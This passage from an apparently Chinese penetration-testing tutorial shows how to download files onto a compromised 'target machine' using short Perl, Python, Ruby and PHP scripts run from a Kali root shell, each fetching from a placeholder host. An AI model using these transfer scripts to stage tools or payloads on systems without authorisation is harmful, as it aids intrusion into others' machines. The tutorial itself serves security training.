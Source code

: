 	C:>cscript test.vbs

以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。

**Perl File Download**

Perl是一门很吊的语言，使用它基本可以实现任何事情，用它实现文件下载也很简单。

	#!/usr/bin/perl
	use LWP::Simple;
	getstore("http://domain/file", "file");
执行脚本文件是这样

	root@kali:~# perl test.pl
	
**Python File Download**

Python也是很受欢迎的主流脚本语言，代码清晰且简洁。

	
	#!/usr/bin/python
	import urllib2
	u = urllib2.urlopen('http://domain/file')
	localFile = open('local_file', 'w')
	localFile.write(u.read())
	localFile.close()
执行脚本文件是这样

	root@kali:~# python test.py
	
**Ruby File Download**

Ruby是一个面对对象的语言，Metasploit框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

	#!/usr/bin/ruby
	require 'net/http'
	Net::HTTP.start("www.domain.com") { |http|
	r = http.get("/file")
	open("save_location", "wb") { |file|
	file.write(r.body)
	}
	}
执行脚本文件是这样

	root@kali:~# ruby test.rb
	
**PHP File Download**

PHP作为一种服务端脚本，也可以实现下载文件这种功能。

	<?php
	        $data = @file("http://example.com/file");
	        $lf = "local_file";
	        $fh = fopen($lf, 'w');
	        fwrite($fh, $data[0]);
	        fclose($fh);
	?>
执行脚本文件是这样
